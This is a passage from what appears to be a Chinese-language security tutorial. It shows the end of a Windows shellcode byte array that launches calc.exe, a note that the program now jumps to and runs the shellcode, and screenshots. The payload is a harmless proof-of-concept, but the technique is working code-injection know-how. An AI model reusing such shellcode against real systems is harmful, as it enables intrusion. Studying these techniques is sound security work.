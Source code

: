 ```bash
    0x8B, 0x04, 0x8B, 0x01, 0xD0, 0x89, 0x44, 0x24,
    0x24, 0x5B, 0x5B, 0x61, 0x59, 0x5A, 0x51, 0xFF,
    0xE0, 0x5F, 0x5F, 0x5A, 0x8B, 0x12, 0xEB, 0x8D,
    0x5D, 0x6A, 0x01, 0x8D, 0x85, 0xB2, 0x00, 0x00,
    0x00, 0x50, 0x68, 0x31, 0x8B, 0x6F, 0x87, 0xFF,
    0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 0x56, 0x68, 0xA6,
    0x95, 0xBD, 0x9D, 0xFF, 0xD5, 0x3C, 0x06, 0x7C,
    0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,
    0x13, 0x72, 0x6F, 0x6A, 0x00, 0x53, 0xFF, 0xD5,
    0x63, 0x61, 0x6C, 0x63, 0x2E, 0x65, 0x78, 0x65,
    0x00, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0xE5, 0x23 
};
```

然后我们再来启动程序，可以看到成功跳转到 ShellCode 进行执行：

[![](assets/1709261916-00fb373514dc2170865d768e54ed72b5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228173039-095044ac-d61c-1.png)

[![](assets/1709261916-269b69c95dcf85a3341d50d2a76e811e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228173105-18ab3088-d61c-1.png)
